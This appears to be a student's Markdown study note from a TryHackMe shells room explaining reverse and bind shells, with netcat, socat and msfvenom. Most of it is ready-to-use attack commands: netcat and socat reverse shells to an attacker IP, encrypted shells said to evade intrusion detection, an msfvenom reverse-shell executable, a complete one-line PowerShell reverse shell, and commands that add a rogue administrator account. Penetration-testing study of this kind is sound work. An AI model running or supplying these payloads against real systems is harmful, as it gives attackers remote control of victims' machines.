






# What The Shell?

> We can force the remote server to either send us command line access to the server (a **reverse** shell), or to open up a port on the server which we can connect to in order to execute further commands (a **bind** shell).

___

## Tools

- `netcat`
- `socat`
- `msfvenom`
- `metasploit multi/handler` + `meterpreter`
- `/usr/share/webshells` (on Kali)

___

## Types of shells

### Reverse shells

**Reverse shells** are when the target is forced to execute code that connects back to your computer. On your own computer you would use one of the tools mentioned in the previous task to set up a listener which would be used to receive the connection. Reverse shells are a good way to bypass firewall rules that may prevent you from connecting to arbitrary ports on the target; however, the drawback is that, when receiving a shell from a machine across the internet, you would need to configure your own network to accept the shell. This, however, will not be a problem on the TryHackMe network due to the method by which we connect into the network.

Example:
- Attacker's machine: `nc -lnvp 1234`
- Victim's machine: `nc <ATTACKER_IP> 1234 -e /bin/bash`
    
### Bind shells 

**Bind shells** are when the code executed on the target is used to start a listener attached to a shell directly on the target. This would then be opened up to the internet, meaning you can connect to the port that the code has opened and obtain remote code execution that way. This has the advantage of not requiring any configuration on your own network, but may be prevented by firewalls protecting the target.

Example:
- Attacker's machine: `nc <VICTIM_IP> 1234`
- Victim's machine: `nc -lnvp 1234 -e "cmd.exe"`

### (Non)Interactive shells

Shells can be either interactive or non-interactive.

- _Non-Interactive_: limited to programs that do not require user interaction. 
- _Interactive_: we can use programs that require user interaction.

> `ssh` is a program that do require user interaction.


___

## `netcat` shell

> Non-Interactive

> Pretty unstable &rarr; `Ctrl + C` kills the whole thing 

Upgrade shell techniques:

- Technique #1 - 3 steps: 
    1. `python -c 'import pty;pty.spawn("/bin/bash")'`
    2. `export TERM=xterm` then `Ctrl + Z`
    3. Finally, `stty raw -echo; fg`

- Technique #2 - 2 steps: _(particularly useful when dealing with Windows shells)_
    1. `apt install rlwrap -y` _(in case `rlwrap` is not installed)_
    2. `rlwrap nc -lvnp <port>`

- Technique #3 - 3 steps:
    1. `python3 -m http.server 80`
    2. `wget <LOCAL-IP>/socat -O /tmp/socat` (for linux) or `Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe` (For Windows)

We can also specify the number the terminal size with `stty`. Tips:
- `stty -a` (getting current rows and columns values)
- `stty rows <number>`
- `stty cols <number>`
    



___

## `socat`

### Reverse shells

- Listener: `socat TCP-L:<port> -`
    + Connect back (from Linux): `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`
    + Connect back (from Windows): `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`

    > The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.

- Fully stable reverse shell _(when the target is a Linux machine with `socat` installed.)_:
    ```bash
    socat TCP-L:<port> FILE:`tty`,raw,echo=0
    ```
    + Connect back: `socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`
        * __pty__: allocates a pseudoterminal on the target -- part of the stabilisation process
        * __stderr__: makes sure that any error messages get shown in the shell, (often a problem with non-interactive shells)
        * __sigint__: passes any Ctrl + C commands through into the 
        * __sub-process__: allowing us to kill commands inside the shell
        * __setsid__: creates the process in a new session
        sane, stabili
        ses the terminal, attempting to "normalise" it.

### Bind shells

- Linux: `socat TCP-L:<PORT> EXEC:"bash -li"`
- Windows: `socat TCP-L:<PORT> EXEC:powershell.exe,pipes`

To connect to this bind shell, we can use: `socat TCP:<TARGET-IP>:<TARGET-PORT> -`



### Encrypted shells

> both bind and reverse shells

> often able to bypass an IDS as a result

We just have to replace `TCP` by `OPENSSL` and follow these steps:

1. Generate a certificate: `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`
2. Merge the two created files into a single `.pem` file: `cat shell.key shell.crt > shell.pem`

Reverse shell:

- Run a listener (attacker): `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`
    > `verify=0` tells the connection to not bother trying to validate that our certificate has been properly signed by a recognized authority.
- Connect back (target): `socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`

Bind shell:

- Target: `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`

- Attacker: `socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -`



### `msfvenom`

> Can be used to generate code for both reverse and bind shells, plus shellcode and payloads in various formats (`.exe`, `.aspx`, `.py`, etc.)

- General syntax: `msfvenom -p <PAYLOAD> <OPTIONS>`
    + -`p` followed by `<OS>/<arch>/<payload>`
- Generate a Windows x64 Reverse Shell in an exe format: `msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`

> **staged** reverse shell payloads (2 pieces) and **stageless** reverse shell payloads (1 bulk)

`msfvenom --list payloads`



___

## Common shell payloads

### Linux targets

- Bind shell with `nc` _(in case `-e` is not included)_: `mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`
- Reverse shell with `nc` _(in case `-e` is not included)_: `mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

### Windows targets

- One line Powershell reverse shell:

```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

- Adding a user to the machine then log in over RDP, telnet, winexe, psexec, WinRM or any other method:
    + `net user <username> <password> /add`
    + `net localgroup administrators <username> /add`

> `xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:MACHINE_IP /u:Administrator /p:PASSWORD`
___

## Useful links

- [PayloadsAllTheThings - Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- [PentestMonkey - Reverse Shell Cheat Sheet](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)